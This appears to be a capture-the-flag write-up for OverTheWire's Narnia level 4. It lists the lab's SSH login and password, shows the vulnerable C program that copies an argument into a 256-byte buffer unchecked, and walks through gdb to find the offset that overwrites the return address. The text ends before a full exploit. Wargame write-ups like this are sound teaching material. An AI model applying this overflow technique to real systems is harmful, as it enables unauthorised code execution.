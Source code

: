 It was a fun one :)

## Narnia 04 Solution

**SSH :** *ssh narnia4@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *thaenohtai*

First, let's try to execute the program...

```bash
$ ssh narnia4@narnia.labs.overthewire.org -p 2226

narnia4@narnia:~$ cd /narnia/
narnia4@narnia:/narnia$ ./narnia4
```

Nothing... weird.

### Source Code

Let's check the source.

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

This one is similar to the **level 2** however, we don't have any output or result from the program. Here, the **buffer** variable is **256** bytes long and again, no boundary check. Let's find where we overflow the return address...

```nasm
$ gdb narnia4

(gdb) set disassembly-flavor intel
(gdb) run $(python -c 'print 264 * "A" + 4 * "B"')
Starting program: /narnia/narnia4 $(python -c 'print 264 * "A" + 4 * "B"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
